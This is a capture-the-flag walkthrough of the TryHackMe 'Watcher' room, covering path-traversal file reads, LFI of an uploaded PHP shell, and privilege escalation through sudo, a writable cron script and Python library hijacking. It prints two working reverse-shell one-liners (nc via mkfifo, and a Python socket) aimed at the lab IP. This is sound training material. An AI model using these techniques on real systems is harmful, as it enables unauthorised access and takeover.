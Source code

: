 # 67 - Watcher (LFI RCE, Python custom library hacking)

Room Link --> [https://tryhackme.com/room/watcher](https://tryhackme.com/room/watcher)

### Enumeration

```
nmap -Pn -n -vv 10.10.177.151 -p- -sV

21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### Flag 1

Navigating to `/robots.txt`&#x20;

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

### Flag 2

From the hint we can see a reference to LFI.

Navigating to [http://watcher.thm/post.php?post=/../../../../etc/passwd](http://watcher.thm/post.php?post=/../../../../etc/passwd)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see 3 users (will, mat, toby) :(

SO i decided to use SecsLists LFI list to bruteforce and see if i can be able to read any file.

`/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` .

Then i landed on this:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried to read this file and it worked.

Navigating to [http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt](http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt)

{% code overflow="wrap" %}
```bash
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- 

# ftp crendentials
ftpuser : givemefiles777
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login via ftp and got flag2

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

#### LFI RCE via Abusing Upload Functions

This was provided as a hint --> [blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

{% hint style="info" %}
Again, our goal is to upload an image with PHP commands included. We will use it to append as a comment our PHP command.
{% endhint %}

I our own case we are able to upload a php file directly from the ftp server.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to: [http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php](http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php)

And i got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

We find flag3 in `/var/www/html/more_secrets_a9f10a` dir.

### Flag 4

#### Priv Esc to Toby

`sudo -l` - we can execute all cmds as Toby.

`sudo -u toby /bin/bash` - and we are Toby.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 5

We see a cronjob running as user Mat.

We also have RW permission on the cow.sh file. So we modify it with a rev shell.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9001 >/tmp/f' > cow.sh`&#x20;

Setup nc and we get a shell as Mat.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 6

#### Priv Esc to Will

So `sudo -l` we can run a python script as user Will.

We found 2 scripts inside: cmd.py and will\_script.py. Reading the will\_script.py we see that it is a filter script. It restricts the user from running commands other than ls, id and cat /etc/passwd commands. It uses a python library named cmd. The library asks for a numeric entry and then it runs one of the three command mentioned earlier. Since we have library inside the same directory as the script, we can hijack the library to run a reverse shell python script.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we will use the echo command to insert the python reverse shell script inside the python library script is using i.e., cmd.py. After doing so, we will run a netcat listener on the same port that we mentioned inside the reverse shell script. Now all that is left is to run the python script will\_script.py as will user using sudo.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.73.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will\_script.py \*

<figure><img src="https://1.bp.blogspot.com/-73AhQIG2Mqc/YKqw_dMTW0I/AAAAAAAAwE0/qKfJbi4XISs4NvslUsvYaQ-Tea4m6lLjgCLcBGAsYHQ/s16000/22.png" alt=""><figcaption></figcaption></figure>

After running the script as will user, we get back to our local machine where we ran the netcat listener earlier.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root.

So there is a backup dir in the /opt dir. There is a ssh priv key in there it belongs to root.

Done!
